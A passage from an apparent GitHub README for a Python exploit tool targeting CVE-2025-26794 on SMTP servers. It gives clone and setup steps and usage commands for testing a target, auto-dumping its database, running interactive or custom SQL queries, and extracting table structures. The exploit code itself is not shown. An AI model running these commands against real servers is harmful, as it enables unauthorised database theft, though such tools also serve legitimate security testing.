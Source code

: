 ## 📦 Installation

### Requirements
- Python 3.6 or higher
- Network access to target SMTP server

### Setup

```bash
# Clone the repository
git clone https://github.com/XploitGh0st/CVE-2025-26794-exploit.git
cd CVE-2025-26794-exploit

# Install dependencies (none required - uses standard library only)
pip install -r requirements.txt

# Make script executable (Linux/Mac)
chmod +x exploit.py
```

## 💻 Usage

### Basic Syntax

```bash
python3 exploit.py <target> [options]
```

### Quick Examples

#### 1. Test if Target is Vulnerable
```bash
python3 exploit.py 192.168.1.10 --test-only
```

#### 2. Automated Database Dump
```bash
python3 exploit.py mail.example.com --auto-dump
```

#### 3. Interactive SQL Query Mode
```bash
python3 exploit.py 10.0.0.5 --interactive
```

#### 4. Extract Specific Table Structure
```bash
python3 exploit.py 192.168.1.10 --table users --columns
```

#### 5. Execute Custom SQL Query
```bash
python3 exploit.py 192.168.1.10 --query "SELECT sqlite_version()"
```
